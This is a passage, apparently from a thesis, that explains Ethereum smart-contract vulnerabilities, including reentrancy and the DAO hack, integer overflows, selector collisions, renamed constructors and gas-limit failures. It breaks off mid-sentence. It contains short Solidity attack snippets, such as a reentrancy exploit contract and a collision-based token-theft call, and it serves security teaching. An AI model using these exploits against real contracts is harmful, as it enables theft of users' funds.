This rendered more than half a million Ether (at the time of the attack about 150 million US-\$\footnote{at 296.43 US-\$ / Ether, the opening price of November, the 6th 2017; according to \cite{coinmarketcap:parityfreeze}}) that had been stored in 587 different MultiSignature-Wallets inaccessible. (see \cite{parity:postmortem}) After the attack, a GitHub-User called \texttt{devops199} claimed to be the owner of the address that launched the attack -- and that they did not know what they were doing.\footnote{see \cite{springrole:parityfreeze}; the issue is located at \cite{github:devops199}}

After the attack, some people affected by the bug demanded a change in the protocol, a so-called \textit{fork}. If only a part of the miners implements those changes, the blocks produced by miners running different protocol versions could become incompatible and therefore the blockchain would split.

In the case of Ethereum and the Parity Library Freeze, the change could restore a fixed version of the library at its old address to make the frozen wallets accessible again. In Ethereum Improvement Proposal 999 this idea was formally proposed by Parity employee Afri Schoedon, which has not been accepted and implemented up to now.\footnote{located at \cite{github:eic999}}

One argument against the fork was, that if not every participant agreed, another alternative blockchain would be created. Additionally, many users felt like the vulnerability could have been prevented by an audit and better security measurements, especially because this bug had already been known back in August 2017, three months before the attack -- it was recommended to claim ownership of the library when deploying by GitHub-user \texttt{3esmit} in a pull-request on the Parity Contract-Repository.\footnote{can be found at \cite{github:parityinitialize}} As a reaction to that attack Parity announced in a blog post that they are planning to reduce their own smart contract development, they were planning to use better tooling to detect vulnerabilities and that they had partnered with an auditing company to validate their smart contracts. (see \cite{parity:newdevprocesses})

\subsubsection{Constructors of Renamed Contracts}
When a smart contract is being created, the code inside the constructor, a function with the same name as the contract, is executed. Afterwards, this code is not inside of the deployed contract bytecode and therefore can't be called again. Usually the constructor is used to initialize the smart contract, for example by giving the contract's creator special privileges.

\begin{listing}[H]
	\begin{minted}[
        linenos=true,
        firstnumber=1
    ]{solidity}
contract NewContractName {
    address owner;
    function OldContractName() public {
        owner = msg.sender;
    }
    // ...
}
    \end{minted}
	\caption{The smart contract \texttt{OldContractName} was renamed to \texttt{NewContractName} without updating the constructor name.}
	\label{lst:abi:newcontractname}
\end{listing}

If the contract is renamed afterwards without changing the name of the constructor function, the constructor becomes a regular function -- and is invocable by anyone. In the case of \mintinline{solidity}{NewContractName} in figure \ref{lst:abi:newcontractname}, now everyone can call the constructor at any time and therefore become the owner of the smart contract.

Starting with Solidity v0.4.22 released in April 2018, the new default constructor syntax is \mintinline{solidity}{constructor ()} instead of \mintinline{solidity}{function OldContractName()}, which does not have to be modified when changing the contract name.\footnote{see solidity changelog at \cite{solidity:changelog}}

\paragraph{Rubixi-Ponzi}
Ponzi schemes are a fraudulent investment scheme, where the payout to prior investors is paid using the money of new participants. Some owners impose a fee on the participants, that can be later retrieved by the owner using a contract function. (see \cite[section 4.4]{atzei:attacksurvey})

One of those schemes was the \texttt{Rubixi}-Ponzi, whose owner had changed the name from \texttt{Dynamic\-Py\-ra\-mid} without updating the constructor name. Due to this everyone was able to retrieve the collected fees using \mintinline{solidity}{collectAllFees()} after becoming the owner by calling the unprotected constructor.\footnote{the smart contract code can be found at \cite{etherscan:rubixi}}

\subsubsection{Wrong Interfaces}
Another possible vulnerability of smart contracts is using them with contract interfaces that are different from the one generated from the contract code:

Since the interface and source code of a smart contract is not stored on the blockchain, other ways have to be used to get the information necessary to interact with a contract. One way are pages like \url{etherscan.io} that can be used to publish the contract source-code for contracts that are already on the blockchain, and even validates that the deployed contract has a bytecode that was compiled from the given source code. But this only works for around 1 \% of the contracts that provide their bytecode on Etherscan.\footnote{calculated by \cite[Introduction]{nikolic:findingbadcontractsatscale}}

Because of this, users will most of the time have to get the contract interface from other, inverified sources or reverse-engineering of the bytecode. In the following I will present some ways on how this could be exploited:

\paragraph{Fallback Function because of Wrong Interface}
In the most probable case a contract is called with a function selector hash that does not correspond to any of the declared functions: In that case, the fallback function will handle this request, that may make the execution of the command fail, or even lead to unwanted behavior:

The following bank-contract stores the balance of each user in a \mintinline{solidity}{mapping} and allows donating Ether to the owner by using the fallback function:
\begin{minted}{solidity}
contract Bank {
    // ...
    // tip to owner
    function () public payable {
        deposit(owner);
    }
    function deposit(address user) public payable {
        balance[user] += msg.value;
    }
}
\end{minted}

When writing a smart contract interacting with this bank contract (or when using a wallet application) the contract interface has to be entered, which might include mistakes like typing errors:
\begin{minted}{solidity}
contract BankABI { function deopsit(address user) public payable; }
\end{minted}

Since \mintinline{solidity}{deopsit(address)} has a signature hash of \texttt{425f42f2}, it won't match the hash of the function \mintinline{solidity}{deposit(address)} (which is \texttt{f340fa01}), so that the fallback function gets executed. Because of this, the received Ether will be added to the account of the owner instead of the one specified by the user.\footnote{a similar idea is presented in \cite[wrong\_interface]{trailofbits:notsosmartcontracts}}

\paragraph{Using Selector Collision to Trick Users}
Another possible way to attack a smart contract is to deceive its users into calling contracts with inputs that are malicious to them. This could be done by providing a faked source code, that makes the user call the contract with special inputs:

In this example, the user is owner of some tokens managed by the smart contract \texttt{BuckToken}, that contains the following function:
\begin{minted}{solidity}
function sendThoseBucksToTheAccountThanks(uint amount, bool createLog, address to) public
\end{minted}

To steal tokens from the user, the attacker presents the bounty contract and claims that the contract is located at the address of the \texttt{BuckToken}.

\begin{minted}{solidity}
contract BountyContract {
    function () public payable {}
    function compareParametersAndRecieveCryptoInstantaneously(int[] attempt) public {
        require(attempt.length == 1);
        require(attempt[0] == 1154414090619811796818182302139415280051214250812);
        msg.sender.transfer(1 Ether);
    }
}
\end{minted}

Because the bounty contract releases the money only for a special input, the user might try to send the input deduced from the code to the function:
\begin{minted}{solidity}
compareParametersAndRecieveCryptoInstantaneously([
    1154414090619811796818182302139415280051214250812
])
\end{minted}

Since the selector hashes of \mintinline{solidity}{compareParametersAndRecieveCryptoInstantaneously(int256[])} and \mintinline{solidity}{sendThoseBucksToTheAccountThanks(uint256,bool,address)} are both equal to \texttt{a09abf73}, the contract recognizes this as a call to \texttt{send\-Those\-Bucks\-To\-The\-Account\-Thanks} and decodes the arguments in a different way (see figure \ref{fig:payloadlayout}) -- which will move \( 20 \) tokens from the account holder to the specified address:
\begin{minted}{solidity}
sendThoseBucksToTheAccountThanks(20, true, "0xca35b7d915458ef540ade6068dfe2f44e8fa733c")
\end{minted}

\vspace{1em}
\begin{minipage}{\linewidth}
	\centering
	
\includegraphics[scale=1.0]{img/abi/calldatalayout.pdf}
	\captionof{figure}[Payload Layout]{The payload of the function calls \texttt{compareParametersAndRecieveCrypto\-In\-stan\-taneous\-ly(32, true, 0xca...3c)} and \texttt{checkSecretAndGetWeiKindly([11...12])} is identical.}
	\label{fig:payloadlayout}
\end{minipage}

If the user does not recognize the Token contract from the address they are interacting with, because of the different function name and the completely different parameters, they won't be reminded of the former interaction with the first contract.

To obtain function signatures with the same hashes, \textsc{Sact}, a simple program (presented in appendix \ref{appendix:abicollision}) was written to find them using brute force. To speed up calculations and reduce the amount of different selectors to try (to get prettier names), the collision tests were run against a dictionary of possible selectors, so that finding a collision was possible using a single thread within a few seconds. In the example of the next paragraph, the collision tests were run against a single selector, which requires an expected amount of around four billion hashing operations. To find those collisions, it took around 15 minutes using four parallel threads.

\paragraph{Obfuscation of Malicious Contracts}
Another way to abuse function selector collisions could be obfuscation of malicious code. For example when writing an exploit for the following \texttt{Wallet}, it might be of interest to hide that the code is interacting with this specific contract interface.

To achieve this, colliding function selectors can be calculated and used instead of original selectors. Since additional parameters are ignored by the contract bytecode generated by Solidity, random additional parameters can be added for additional confusion. The functions of the following contract interfaces have identical function selectors hashes for each line:

\begin{multicols}{2}
	\begin{minted}{solidity}
contract Wallet {
    function deposit() payable;
    function withdraw();
}
\end{minted}

	\begin{minted}{solidity}
contract WeirdContractInterface {
    function wFyuDA(string a) payable;
    function EcctzE(
        uint256 a, address b);
}
\end{minted}
\end{multicols}

\subsection{Solidity Compiler}
Another source of vulnerabilities is the compilation from a high-level language like Solidity to the Ethereum Virtual Machine bytecode. Additionally, some bad choices in the design of the language might lead to confusion when developing smart contracts -- and therefore to vulnerabilities in the bytecode.

\subsubsection{Compiler Bugs}
A source of vulnerabilities in smart contracts is the compilation, where a smart contract written in a high-level-language is transformed to bytecode that can be executed in the virtual machine. If the compiler does not work correctly, correct smart contracts written in the high level language might get corrupted:

In the example problem of the compiler of Solidity, the most popular language for the programming of smart contracts will be presented. The \texttt{HighOrderByteCleanStorage}-bug\footnote{found inside \cite{solidity:buglist}} that was rated with a high severity that is going to be presented was found and fixed in november 2016.

The Solidity compiler optimizes the state-storage usage by saving storage variables that are shorter than \( 256 \) bit in the same memort cell. Until compiler version 0.4.4, neighboring variables were modified in case of an overflow (as presented in \cite{ethereum:overflowblogpost}). Since \mintinline{solidity}{a} overflows in the following example, \mintinline{solidity}{b}, which is saved directly adjacent to the higher-order bits of \mintinline{solidity}{a}, will be modified to \texttt{1}:
\begin{minted}{solidity}
uint32 a = 0xffffffff; uint32 b = 0;
function run() returns (uint32) {
    a++;
    return b;
}
\end{minted}

Whereas the Solidity compiler is widely used and has received positive security audits (like \cite{augur:solidityaudit}, where all vulnerabilities found were rated to have a low severity), alternative languages like Serpent, a python-like contract programming language, which was the main contract programming language before Solidity was introduced in 2014 (see \cite{wikisource:solidityinventorgavinwood}), can be considerable worse:

An audit by the smart-contract security company Zeppelin Solutions\footnote{that can be found in \cite{augur:serpentaudit}} criticized flaws in the language design like the no restrictions on redefining language keywords, using undeclared variables and accessing arrays out of bounds. Additionally the bad documentation with examples that can't be compiled and the idle development were criticized.

\subsubsection{Type Deduction}
A language feature that could become a security issue is the type deduction (as mentioned in \cite[Security Considerations; Minor details]{ethereum:solidity}): If the keyword \mintinline{solidity}{var} is used, the specific type of the variable is deduced as the smallest type the assigned value fits in. Since Solidity 0.4.20 released in april 2018 \mintinline{solidity}{var} is marked as deprecated.

This feature is especially critical in \mintinline{solidity}{for}-loops: If the counter variable is initialized as \mintinline{solidity}{var i = 0;}, it is treated like \mintinline{solidity}{uint8 i = 0}, which will overflow for values larger than \( 255 \). In the following example, if \mintinline{solidity}{ownerList} has more than \( 255 \) elements and the comparison does not evaluate to be true, the following loop will not terminate because \mintinline{solidity}{i} overflows:
\begin{minted}{solidity}
for(var i = 0; i < ownerList.length; i++) {
    if(ownerList[i] == toBeChecked) {
        return true;
    }
}
\end{minted}

\subsubsection{Mishandled Exceptions}
\label{section:vulnerabilities:interaction:mishandledexceptions}
EVM exceptions can be raised when the gas of the execution runs out, the transaction is being reverted or an invalid command is being executed. When an exception occurs directly in the transaction the user called, the transaction is aborted and therefore the state of the blockchain is not modified.

But when handling calls to other contracts, there are two different types of behavior for propagating exceptions: When calling functions of references to other contracts like for example \mintinline{solidity}{a.functionName()} or transferring Ether using \mintinline{solidity}{a.transfer()}, exceptions thrown in subcalls will be re-thrown and therefore the execution of the outer contract will be terminated as well.

But when using \mintinline{solidity}{a.call()}, \mintinline{solidity}{a.delegatecall()} or \mintinline{solidity}{a.send()}, if the subcall fails for some reason, those functions just return \mintinline{solidity}{false}; and if the return value is not checked, the sub-call will just fail silently. \footnote{see \cite[Exception disorder]{atzei:attacksurvey}}

A popular type of Ponzi scheme on the Ethereum Blockchain are "throne" contracts: They are owned by a user called the king or queen. If another user wants to take their place, he has to send a specific amount of Ether to the contract. The received money is then sent as a compensation to the old king, and the price to claim the throne from the last king is increased again.

In listing \ref{lst:interaction:kingofthebachelorthesis} the claiming-function of a fictional throne-contract \texttt{KingOfTheBachelorThesis} is implemented.

\begin{listing}[H]
	\begin{minted}[
        linenos=true,
        firstnumber=16
    ]{solidity}
function claim(string _name) public payable {
    require(msg.value > current.value);
    current.refundAddress.send(address(this).balance);
    
    current = King({
        name: _name,
        refundAddress: msg.sender,
        value: msg.value
    });
}
    \end{minted}
	\caption{Extract from the sample contract \texttt{KingOfTheBachelorThesis}.}
	\label{lst:interaction:kingofthebachelorthesis}
\end{listing}

If the user decides to use a smart contract to claim the throne, whose fallback function  requires more gas than provided by send (for example because it saves the information about the received Ether in the contract storage), the \mintinline{solidity}{send()} will just fail silently.

\paragraph{KingOfTheEther}
The \texttt{KingOfTheEther} contract was a more elaborated version of the \texttt{King\-Of\-The\-Bachelor\-Thesis}, that existed on the Ethereum Blockchain. When a user claimed the throne using a smart contract whose fallback function executing when receiving Ether exceeded the gas provided with the \mintinline{solidity}{send}, the contract failed to return the compensation without noticing (see \cite{kingoftheether:postmortem}).

% Underflowing arrays when not using push/pop

\subsection{Error during Execution}
The following two sections present problems that arise from the execution of the bytecode in the Ethereum Virtual Machine. In this section only problems with standalone contracts are considered:

\subsubsection{Overflows}
Since numbers are stored with a limited amount of bits, only a range of numbers can be stored in a variable. If the result of an arithmetic operation is outside the range of the containing type, the higher-order-bits will be cut off resulting in an \textit{overflow} which leads an unexpected result.

In the following example, the small data type \mintinline{solidity}{uint32} were intentionally used to avoid monstrously large sample inputs. When calling \mintinline{solidity}{transfer(0x..., 0xffffffff, 0x0000001)}, the sum of \mintinline{solidity}{amount} and \mintinline{solidity}{fee} overflows and therefore becomes \texttt{0}, which will then pass the comparison in the second line and therefore create new coins for the account \mintinline{solidity}{to}:
\begin{minted}{solidity}
function transfer(address to, uint32 amount, uint32 fee) public {
    require(balances[msg.sender] >= amount + fee);
    balances[msg.sender] -= amount + fee;
    balances[to] += amount;
}
\end{minted}

A way to avoid overflows is using additional checks - those can be easily included using libraries like \texttt{SafeMath} created by OpenZeppelin Solutions (available at \cite{zeppelin:safemath}). A safe addition, that reverts the transaction in case of an overflow, looks like this:
\begin{minted}{solidity}
c = a + b;
require(c >= a);
\end{minted}

\paragraph{Smart-MESH-Token}
Tokens are crypto-currencies, whose balances are managed by and stored inside a smart contract. They are often sold to back projects or startups; and used as a substitute for crowdfunding-platforms like Kickstarter. One of those tokens called M2C Mesh Network was created in order to support the development of an autonomous network between IoT-devices (see their whitepaper at \cite{mesh:whitepaper}).

The addition that was prone to overflows was inside a function of that Token contract\footnote{whose code can be found at \cite{etherscan:mesh:code}}, that allowed third parties to transfer tokens with the approval (a cryptographic signature) of the account owner. This function was intended to be used by exchanges, to allow trading tokens of users that don't own Ether to pay the gas required for the execution of the transfer.

To ensure that the account's balance is high enough for the transaction, the following check was done with \texttt{_fee} and \texttt{_value} being function parameters:
\begin{minted}{solidity}
if(balances[_from] < _fee + _value) revert();
balances[_to] += _value;
balances[msg.sender] += _fee;
balances[_from] -= _value + _fee;
\end{minted}

To conduct the attack, a transaction with the sum of \texttt{_fee} and \texttt{_value} being greater than the maximal amount of \mintinline{solidity}{uint}, so that their sum evaluates to \( 0 \), was crafted. (see \cite{etherscan:mesh:transaction}) This created an absurd amount of tokens out of thin air worth over \( 10^{57} \) US-\$ with the market value of the coin at that time. As a reaction to this, some of the bigger exchanges temporarily disabled their support for ERC20-Tokens. (see \cite{cryptoslate:batchoverflow} and \cite{medium:integeroverflowerc20})

\subsubsection{Block Gas Limit}
The maximum amount of gas spent over all transactions inside a block is limited by the \textit{block gas limit}, which is a variable of the Ethereum blockchain that the miner of the current block can change by about \( 0.1 \% \) relative to the parent block (defined in \cite[Section 4.3.4, equation 47]{ethereum:yellowpaper}) by each miner, which enables them to "vote" for the next block gas limit.

If a transaction requires more gas than the block gas limit, it can not be executed, regardless of the gas limit set with the transaction. (see \cite[Security Considerations, Block Gas Limit and Loops]{ethereum:solidity}) Contracts are especially prone to this vulnerability, if they contain a dynamic array growing over time, that has to be iterated in the future.

\paragraph{GovernMental}
The Ponzi-Contract \texttt{GovernMental} (see \cite{github:governmental}) that was deployed in March 2016 is supposed to simulate a state that is in debt. A user can lend money to the state by sending Ether to the function \mintinline{solidity}{lendGovernmentMoney()}, and then will be added to the list of creditors. The received money is then used to pay previous creditors, and small amounts are deducted to pay the creators of the contract and to build up a jackpot. If no additional money is received after twelve hours, the corrupt state crashes, and the last creditor wins the jackpot. Afterwards, the contract is reset to start from the beginning.

In the following extracts from the smart contract code of \texttt{GovernMental}, that is located at \cite{etherscan:governmental:code}, lines not relevant to the vulnerability have been omitted. Whenever someone transfers Ether to the contract calling the function \mintinline{solidity}{lendGovernmentMoney()}, the sender is added to the list of creditors:
\begin{minted}{solidity}
creditorAddresses.push(msg.sender);
\end{minted}

As soon as time runs out, the state will crash and the last creditor will receive the jackpot. The critical part is the assignment to \mintinline{solidity}{new address[](0)}, because in bytecode this becomes a loop setting all elements of the array to zero:
\begin{minted}{solidity}
if (lastTimeOfNewCredit + TWELVE_HOURS < block.timestamp) {
	creditorAddresses[creditorAddresses.length - 1].send(profitFromCrash);
	creditorAddresses = new address[](0);
}
\end{minted}

On 25th of April 2016 the jackpot had filled up, and no one provided fundings for twelve hours, so that the last creditor won the jackpot of over one thousand Ether. But due to the expensive storage operations to clear the array, the prize could not be claimed, because in every call the gas limit was exceeded and therefore the whole transaction reverted, so that the Ether was stuck inside the contract (see \cite{reddit:governmental}). After two months, on the 17th of July 2016, enough miners had voted to increase the block gas limit, so that the winner was finally able to retrieve the jackpot (at transaction \cite{etherscan:governmental:retrieve}).

\subsection{Contracts Interaction}
When considering the interaction of smart contracts, a whole new set of additional vulnerabilities arises:

\subsubsection{Reentrancy}
Because of transactions being executed sequentially and atomically, a programmer might believe that a function can not be entered to before its execution has finished. This does not hold if the contract somehow calls another contract, because the called contract can \textit{re-enter} the caller during its execution. (see \cite[3.4 Reentrancy]{atzei:attacksurvey}) This becomes a problem, if after the call state variables of the contract are changed that would alter the behavior of the next call:

Consider the following simple Wallet contract, where users can \mintinline{solidity}{deposit()} Ether, and later retrieve their stored amount (which is saved inside the \mintinline{solidity}{mapping balance}) using \mintinline{solidity}{withdraw()}. When \mintinline{solidity}{withdraw()} is executed, first the value stored in \mintinline{solidity}{balance} is sent to the user using the \mintinline{solidity}{call}-function, and afterwards set to \( 0 \).
\begin{minted}{solidity}
contract VulnerableWalletContract {
    mapping(address => uint) balance;
    
    function deposit() public payable {
        balance[msg.sender] += msg.value;
    }
    
    function withdraw() public {
        require(msg.sender.call.value(balance[msg.sender])());
        balance[msg.sender] = 0;
    }
}
\end{minted}

The order of the statements inside \mintinline{solidity}{withdraw()} makes this contract susceptible to re-entrancy-attacks: If another smart contract interacts with \texttt{VulnerableWalletContract}, when transferring Ether in the first line of \mintinline{solidity}{withdraw()} its fallback function will be called. In there, the \mintinline{solidity}{withdraw()} function can be called - which has not yet set \mintinline{solidity}{balance[msg.sender]} to \( 0 \).

This can be used in the contract, whose function exploiting this vulnerability is shown in the next code extract: If \mintinline{solidity}{attack(VulnerableWalletContract r)} is called with enough gas, more Ether than allowed by \mintinline{solidity}{balances} can be retrieved:
\begin{minted}{solidity}
function attack(VulnerableWalletContract r) public payable {
    require(address(this).balance > 0);
    r.deposit.value(address(this).balance)();
    r.withdraw();
}

function () public payable {
    if(gasleft() > 10000) {
        VulnerableWalletContract(msg.sender).withdraw();
    }
}
\end{minted}

There are two possible solutions to this problem: First, the sub-calls should happen after the state variables have been changed, so that there is no advantage in re-entering the functions. Additionally, the gas sent along with the call can be restricted, so that there is not enough gas to call another contract. This is done by default when using \mintinline{solidity}{transfer} inside Solidity.

\paragraph{The DAO-Hack}
The largest and most advanced hack in the history of the Ethereum platform was the hack of the \textit{decentralized autonomous organization} \texttt{TheDAO}, which used re-entrancy as the main vulnerability.

The DAO was planned to be a investment company without employees running on the Ethereum blockchain and therefore out of control of state regulations. The investment decisions were planned to be made decentralized; it was planned that all investment decisions are decided by the votes of the participants. The concept was based on the idea, that a real company is also just a set of traditional contracts, that is being normally fulfilled by it employees; but in the case of \texttt{TheDAO} they are replaced by smart contracts that fulfil themselves. The code was written, published as open source software and deployed by the startup Slock.it, which was founded by the German programmers Christoph and Simon Jentzsch.\footnote{see \cite{zeit:dao}}

One basic concept of the DAO was that the \textit{code is law}, which means that the single source of truth concerning \texttt{TheDAO} was its code deployed on the blockchain. This was stated clearly in the terms on the website of the DAO at \cite{dao:terms}:
\begin{quotation}
	The terms of The DAO Creation are set forth in the smart contract code existing on the Ethereum blockchain at \textit{[Address of TheDAO]}. Nothing in this explanation of terms or in any other document or communication may modify or add any additional obligations or guarantees beyond those set forth in The DAO’s code. \textit{[...]}
\end{quotation}

The "shares" of \texttt{TheDAO} were tokens, that were given to people sending in Ether during its funding period. Every token holder could enter proposals, and during a following debating period, all the users could decide whether to accept or decline. If enough token owners had voted and the result was in favour of the idea, the investment was sent to the address entered with the proposal.

To protect the DAO from malicious proposals (like just paying out all its fundings to a malicious majority) the \mintinline{solidity}{curator} was introduced: They check every proposal, and can block those venomous to the DAO. To replace curators, participants could split the DAO (which of course could not be stopped by the curators) and move their transactions to a newly created copy of \texttt{TheDAO} with identical source code, but themselves as the curator. Slock.it had managed to persuade many important members of the Ethereum foundation to act as curators of \texttt{TheDAO} like Vitalik Buterin, the inventor of Ethereum (see \cite{slockit:curators}).

After the 28-day funding window that ended on 28th of April 2016, 11 million Ether worth over 240 million US-\$\footnote{amount of Ether from \cite{etherscan:dao:balancebefore}; Ether value of \( 20.65 \) Ether / US\$ at opening of 17th July 2016 from \cite{coinmarketcap:ethervaluedao}} had been collected from more than 11 thousand addresses, which made it the most successful crowdfunding campaign at this point of time. The collected amount of Ether amounted to 14 \% of all the Ether available,\footnote{see \cite{coindesk:daohackjournalists} for the duration, participants, and largest crowdfunding in history; and \cite{economist:dao} for the 14 \%} which was especially surprising considering concerns that participants of the DAO won't be able to make good decisions due to a lack of information and experience\footnote{see \cite{technologyreview:daocriticism}}; and the doubts that using the DAO as an investment was legal.\footnote{see \cite{americanbanker:legalcriticism} and \cite{coindesk:daohackjournalists}}

Instead, the problem finally killing the DAO was something different: There was a bug within the code of the DAO, that allowed stealing its funds. In the following section the technical aspects of the hack will be explained:\footnote{the code is shortened and refactored code from the DAO-contract at \cite{etherscan:dao}; analysis of the participating addresses was done by \cite{pfeffer:attackstory} and the exploit was analyzed by \cite{hackingdistributed:analysisdaoexploit}}

\subparagraph{The Attack}
The whole attack was based on vulnerability to re-entrancy-exploits of the functionality to split the DAO and therefore change the curator:

As a preparation for the attack, the DAO-hacker started a proposal to split \texttt{TheDAO} and make himself the curator of a new child-DAO at transaction \cite{etherscan:lonelysolonely} on 8th of June 2016, with the unsuspicious proposal name of  \mintinline{solidity}{"lonely; so lonely"}. Because of \mintinline{solidity}{minSplitDebatePeriod = 1 weeks}, they had to wait for one week until the split could be executed.

After the debate period had ended, the attacker started to launch their raid on 17th of June 2016: This is where the re-entrancy exploits came into play: Those smart contracts had already been deployed, had been sent DAO tokens (which made them stakeholders of the DAO), and had voted to participate in the split.

One of those attacks can be found on the blockchain at transaction \cite{etherscan:dao:oneoftheattacks}, where the exploit first called \mintinline{solidity}{splitDAO()} for the created split proposal, that can be seen in listing \ref{lst:interaction:splitdao} to move the investments of the exploit account in the main \texttt{TheDAO} to the split DAO, that later received the name \texttt{TheDarkDAO} by the community. As can be seen in the listing at line 4, during the first split-operation the child-DAO was created, and its address was then saved for later calls of \mintinline{solidity}{splitDAO()}.

There are three lines in the source code, that enabled the reentrancy-attack: The first one is line 12, where the share of the funds owned by the user is moved to \texttt{TheDarkDAO}. This line is thought to be only executed once, because at the end of the function in line 14 the balance is set to \texttt{0}, which would result in \texttt{fundsToBeMoved = 0} in the next call.

\begin{listing}[H]
	\begin{minted}[
        linenos=true,
        firstnumber=1
    ]{solidity}
function splitDAO(uint _proposalID, address _newCurator) {
    Proposal p = proposals[_proposalID];

    if (address(p.splitData[0].newDAO) == 0) {
        p.splitData[0].newDAO = createNewDAO(_newCurator);
        p.splitData[0].splitBalance = actualBalance();
    }

    uint fundsToBeMoved =
        (balances[msg.sender] * p.splitData[0].splitBalance)
            / p.splitData[0].totalSupply;
    p.splitData[0].newDAO.createTokenProxy.value(fundsToBeMoved)(msg.sender);

    withdrawRewardFor(msg.sender); // be nice, and get his rewards
    balances[msg.sender] = 0;
    paidOut[msg.sender] = 0;
}
    \end{minted}
	\caption{A shortened version of the vulnerable \mintinline{solidity}{splitDao()}-function from the \texttt{DAO}-contract.}
	\label{lst:interaction:splitdao}
\end{listing}

The problem of the code is the call to \mintinline{solidity}{withdrawRewardFor(msg.sender)} in line 14, where the share of the reward that were made by \texttt{TheDAO} would be transferred to the token owner. As a part of this function, a \mintinline{solidity}{call()} is launched, that is meant to transfer those profits to \mintinline{solidity}{msg.sender} (which in the case of the attack is the exploit).

A look at the code of \mintinline{solidity}{withdrawRewardFor()} reveals, that here the check only tests if the reward would underflow, the safeguard in line 23 never \mintinline{solidity}{throw}s if the \mintinline{solidity}{paidOut[_account]} is \texttt{0}, which was true, because the DAO had not even made any profit yet:
\begin{minted}[
    linenos=true,
    firstnumber=18
]{solidity}
function withdrawRewardFor(address _account) internal {
    uint rewardPlusPaidOut =
        (balances[_account] * rewardAccount.accumulatedInput())
            / totalSupply;

    if (rewardPlusPaidOut < paidOut[_account]) throw;
    uint reward = rewardPlusPaidOut - paidOut[_account];

    rewardAccount.payOut(_account, reward)

    paidOut[_account] += reward;
}
\end{minted}

The increase of \mintinline{solidity}{paidOut[_account]} in line 28 is no problem, because it is only executed after the re-entrancy happens, and is set to \texttt{0} directly afterwards in line 16 at the end of each transaction, so this never becomes a problem for the attacker.

Next, \mintinline{solidity}{rewardAccount.payOut()} is called, where \mintinline{solidity}{rewardAccount} is a \texttt{ManagedAccount}-smart contract, that holds the received profits of the DAO and references the DAO contract as its owner. Because of this, \mintinline{solidity}{_recipient}, which contains the address of the address calling \mintinline{solidity}{splitDAO()} is sent the reward:
\begin{minted}{solidity}
function payOut(address _recipient, uint _amount) {
    if (msg.sender != owner) throw;
    _recipient.call.value(_amount)();
}
\end{minted}

Because the \mintinline{solidity}{call}-function was used to transfer the Ether and therefore all available gas was sent along (probably to allow memory accesses in fallback function of the called contract), the smart contract could just call \mintinline{solidity}{splitDAO()} again for the same proposal, which would move the same amount of Ether again to \texttt{TheDarkDAO}. To ensure that the transaction does not fail due to insufficient gas, the recursion is stopped before this happens.

Since due to the block gas limit the attacker only can steal small amounts of Ether in one call, somehow the DAO-tokens had to be saved from being set to \texttt{0} at the end \mintinline{solidity}{splitDAO()}. This was achieved by transferring using \mintinline{solidity}{transfer(address _to, uint256 _amount)} before ending the recursion to the address of a second, identical exploit, from where the execution could be executed again and afterwards the tokens were sent back to the first exploit.

After executing this attack, \texttt{TheDarkDAO} had received 3.5 million Ether, which was about a third of the funds of the original \texttt{TheDAO}\footnote{balance of \texttt{TheDarkDAO} at the day after the attack at \cite{etherscan:darkdao:balanceafter}}, where the majority of the tokens and the curator account were controlled by the attacker enabling them to withdraw the funds using a funding proposal. This would take the attacker more than 27 days because of the creation window of the DAO contract alone (see \cite{ethereum:redaovulnerability}).

One interesting fact was that the attacker was even prepared to deal with other splits happening before their attack: A second pair of exploit contracts had been prepared, that had voted for every split proposal after the one sent by attacker, giving them the chance to receive tokens of those potentially new split DAOs and repeating the attack there again.

\subparagraph{Consequences for the Ethereum Network}
Although the platform worked correctly, and the bug was completely caused by a programming mistake in the source code of \texttt{TheDAO}, the incident had an heavy impact on the whole Ethereum network: The Ethereum price in US-\$ dropped by almost \( 50 \% \) on the days following the attack.\footnote{see \cite{coinmarketcap:ethervaluedao}, comparing the opening of 17th June 2016 to closing of 18th June 2016}.

To revert the effects of the attack, a fork was proposed in \cite{slockit:hardfork} that would remove the Ether from \texttt{TheDarkDAO} at a certain blocknumber. The Ether would then be placed into another smart contract (at \cite{etherscan:withdrawdao}), that would refund the initial token price to the participants of the DAO.

The arguments against the fork were maintaining the idea of having immutable transactions on the blockchain -- and the question, if the hack was indeed a theft, or just another legitimate application of the DAO, whose terms stated that its functionality is described inside its source code, which also contained the vulnerability.

The main reason for the Ethereum Foundation to initiate the fork of the Ethereum platform might have been the plan to make the blockchain a basis for commerce applications, and no reaction would have resulted in a big loss of trust in the platform. Additionally, the huge amounts of Ether owned by the \texttt{TheDAO}-hacker would also be problematic for future projects like the planned move to a \textit{proof of stake}-consensus mechanism, where the block validators vote on the next block weighted by their deposit.\footnote{see \cite{coindesk:daohackjournalists}, \cite[Proof of Stake FAQ]{ethereum:wiki} for explanation of proof of stake} Additionally, many important members of the Ethereum Foundation were involved in \texttt{TheDAO}: For example the founder of Ethereum Vitalik Buterin was one of the curators\footnote{see \cite{slockit:curators}} and even had bought some of its shares.\footnote{\cite{etherscan:buterindao} is a transaction of Vitalik Buterin buying DAO tokens for 900 Ether, that the address belongs to him is stated at \cite{unblock:buterinaddress}}

On 20th of July 2016 the fork was conducted, and the majority of the participants of the network followed. While the main, forked branch of the blockchain with the refund address gained acceptance, the branch following the old rules and maintaining the effects of the hack was called "Ethereum Classic" and is still maintained by a group of developers up to time of writing -- advertising that they are respecting the immutability of transactions. Considering the market capitalization of the coins, Ethereum is today ways more popular than Ethereum Classic.\footnote{see \cite{heise:fork} and \cite{ethereumclassic:titlepage}}


\subsubsection{Using tx.origin}
When checking the source of the transaction, there are two different ways to obtain the address of the caller: While \mintinline{solidity}{msg.sender} returns the address that directly called the current contract, \mintinline{solidity}{tx.origin} contains the address of the user that initiated the transaction.

The later possibility can be problematic, since an exploit contract unintentionally called by the privileged address could then execute the vulnerable contract with the rights of the privileged account. In this example, the vulnerable contract can be killed by it's \texttt{owner} using:
